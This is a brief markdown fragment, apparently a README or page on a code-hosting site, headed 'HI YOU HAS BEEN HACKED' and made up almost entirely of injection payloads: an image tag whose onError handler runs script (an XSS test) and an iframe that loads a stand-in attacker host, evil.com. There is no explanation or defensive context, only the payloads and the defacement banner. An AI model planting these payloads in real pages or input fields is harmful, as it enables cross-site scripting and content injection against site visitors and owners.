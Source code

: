 # HI YOU HAS BEEN HACKED

## "><img src=x onError=prompt(1)>

### 

"><iframe src="https://evil.com"></iframe>

